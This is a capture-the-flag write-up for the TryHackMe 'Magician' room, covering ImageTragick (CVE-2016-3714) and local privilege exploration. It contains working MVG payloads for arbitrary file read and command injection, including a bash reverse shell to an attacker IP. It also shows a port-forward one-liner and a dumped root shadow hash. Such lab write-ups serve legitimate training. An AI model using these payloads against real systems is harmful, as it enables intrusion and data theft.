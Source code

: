 # Tryhackme.com Room : Magician

`https://tryhackme.com/room/magician`

## Instance

```bash
export IP=10.10.229.19
Hostname : magician
```

## Nmap

```
PORT     STATE SERVICE    VERSION                                                                                               
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```

## Initial Foothold

Tying to login anonymously to the ftp server. Seems to hang, but after some time we receive the folowing answer :

```
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) 
Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

We already knew that it was `CVE-2016-3714` from the challenge description.

Doesn't seem like we can do anything else on the ftp server. Everything get permission denied.





Browsing `:8080` show the following error :

```
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Wed Feb 24 18:01:17 UTC 2021
There was an unexpected error (type=Not Found, status=404).
No message available
```



When browsing `:8081` we get a prompt to upload a `png` file that will be converted to `jpg`

Let's try out with some dummy image.



The upload is done via a `POST` to `http://magician:8080/upload` 

A `GET` to `http://magician:8080/files` give us a list of the uploaded files (As json)

The uploaded file is available at `http://magician:8080/files/{FILENAME}.jpg`



The original filename is kept and file are uploaded over (Same filename get overwritten)



Seems like we can upload any type of file but the browser will force us to download the file when browsing `:8080/files/{FILENAME}` so we can't simply execute php file



Let's have a look at `CVE-2016-3714` 



I guess the way to go is to craft an `mvg` image file like this :

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

I was able to receive a request by uploading

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://10.2.13.34:8000/img)'
pop graphic-context
```

but when adding the `";| ls "-la`, i don't get the request anymore, I tried to replace the `ls -la` with a `curl`, `wget`, `nc` or `ping` request but it doesn't seem to trigger..



Hmmm... let's see the other way to exploit this.

We can do arbitrary file read with

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

This generate an image with the content of the file.

From this we see that there is only one user with bash access `magician` 

My first thought was to exfiltrate an ssh key but there is no sshd service running so this is pointless.



We can also move and delete files, might be a way to write a php shell script in `/var/www` ?



Hmmm... but I guess the most straightforward way is still to inject a command in the 

```
"wget" -q -O "%o" "https:%M"
```

call made by imagemagick (First payload)



Sooooooo, my error was pretty stupid, I was specifying an `http` scheme while it needed to be `https` although, not sure why I would receive an `http` query when no commands where appended... Also, not sure how it work ? The resulting url would be `https:https://10.2.13.34` maybe the `https` is stripped before being inserted ? Still, don't understand how I could get a real `http` query when no commands are specified... 

Seems like just spawning an `http` server and using an `https` scheme work even tho we get gibberish on our server, the exploit is still executed and we get a reverse shell



Anyhow, the `exploit.mvg` payload is :

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://10.2.13.34:8000/img";bash -i >& /dev/tcp/10.2.13.34/8888 0>&1; echo "1)'
pop graphic-context
```



Reading write ups, seems like we could have left `https://example.com` in there and wait for the request to timeout. This is actually the first thing I did, trying to ping myself. And it did work after some time.



## Priv esc

Now that we are in as `magician` we can retrieve the `~/user.txt` :

```
THM{simsalabim_hex_hex}
```



There is a file `~/the_magic_continues`

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```



They were kind enough to include `nmap` on the box, so we can simply `nmap 127.0.0.1` and find (Could also have listed the opened ports with `netstat -tulpn | grep LISTEN` or used `nc-z -v 127.0.0.1 PORT` for port scan)

```
PORT     STATE SERVICE
21/tcp   open  ftp
6666/tcp open  irc
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
```

We now have access to port `6666` which wasn't accessible from the outside

running `nc 127.0.0.1 6666` doesn't give us anything but we can `curl http://127.0.0.1:6666` and we see an html page with yet another file upload.



Taking a look at the running process with `ps -aux | grep .` (grep to prevent truncating output) we see 

```
/usr/bin/python3 /usr/local/bin/gunicorn --bind 127.0.0.1:6666 magiccat:app
```

runned as `root` so definitely, this is our privesc route.

Looking at `gunicorn` doc (python http server), we see that this simply run the `app` function of a `magiccat.py` module.



Tried to find the the module but couldn't find it. It's probably in `/root` so we don't have access to it (Would have been cool to inject ourselved in the python process via dependency injection)



To access the `:6666` website, I guess we need to forward the port to the outside.

A simple way to do so is usint `ncat` :

```
ncat -l 0.0.0.0 8787 --sh-exec "ncat 127.0.0.1 6666"
```

But then this as to be runned for each request... not super practical (Could have used `chisel`, was a bit lazy so i just reran the command after each request.. didn't need too much stuff).

The webpage give us a `filename` prompt where we can enter a filename an get the "content" of the file.

So we enter `/root/root.txt` but the output is encoded 

```
VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K
```

This is base64 encoded which give us

```
THM{magic_may_make_many_men_mad}
```

Interesting fact is that reading again the file give us different encoding (Binary,rot13,hex)



We could also have simply done (Could have infered that from the html response)

```
curl -X POST 127.0.0.1:6000 -d 'filename=/root/root.txt'
```

from the local prompt without port forwarding



Sooo,now we have the root flag, but we are not root..

We can read `/etc/shadow` :

```
root:$6$NHggwdue$.yIva.bW5tMrYsr5mlTN/tqwaewN5s8fkbQ9rE7Sy0TUtjxSZsmqHb2qL/R5mj7ItKGxwbObqPPjWl1laHU8e0:18663:0:99999:7:::
```

We could try to crack the password.

We'll let john run and look elsewhere for now



What about python injection ? Where is that maggicat module...



Couldn't find a way to escalate priv.. and jon didn't return anything

Lookng at write ups, seems like other didn't either.

So yeah, I guess this is the end of this box

## End

